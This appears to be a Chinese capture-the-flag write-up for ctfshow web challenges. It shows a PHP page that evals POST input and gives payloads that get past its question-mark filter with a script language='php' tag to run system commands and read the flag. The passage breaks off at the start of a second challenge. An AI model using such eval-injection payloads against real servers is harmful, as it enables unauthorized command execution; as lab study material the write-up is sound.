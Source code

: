 ```yaml
---
title: "ctfshow-新手杯-web"
date: 2023-05-29T13:27:24+08:00
categories: ["ctfshow"]
---
```


# ctfshow-新手杯-web

## easy_eval

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$code = $_POST['code'];

if(isset($code)){

  $code = str_replace("?","",$code);
  eval("?>".$code);

}
```

#### 题目分析

```
eval("?>".$code);将字符串$code的内容作为PHP代码进行解析和执行。
字符串"?>"表示PHP的结束标记，而$code是包含要执行的实际PHP代码的字符串。
?>将eval函数进行闭合，eval函数失去了作用，需要自己加php标签，输入过滤了问号，用javascript的标签来代替。
```

#### payload

```
POST:
code=<script language="php"> system("ls /"); </script>
code=<script language="php"> system("tac /f1agaaa"); </script>
```

## 剪刀石头布

**打开环境之后的页面**

![](/images/剪刀石头布-1.png)

**输入name以后进入的页面**
